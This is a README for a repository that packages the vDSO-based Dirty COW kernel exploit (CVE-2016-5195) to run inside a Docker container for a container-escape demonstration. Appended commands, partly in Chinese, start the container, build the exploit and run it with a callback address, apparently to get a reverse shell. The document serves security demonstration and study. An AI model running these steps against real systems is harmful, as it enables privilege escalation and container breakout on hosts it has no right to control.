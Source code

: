 # dirtycow-docker-vdso

This repository is the necessary bits to get the vdso based Dirty Cow POC working inside a docker container. All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.

There is also a writeup and youtube video of using the above exploit to break out of a docker container on my blog:

  https://blog.paranoidsoftware.com/dirty-cow-cve-2016-5195-docker-container-escape/
  
  
  cheers!

  ----------------------------------------------------------------------------------------------------------------------------
#启动容器

cd dirtycow-docker-vdso/

sudo docker-compose run dirtycow /bin/bash

#进入容器，漏洞利用

cd /dirtycow-vdso/

make

./0xdeadbeef 192.168.172.136:1234
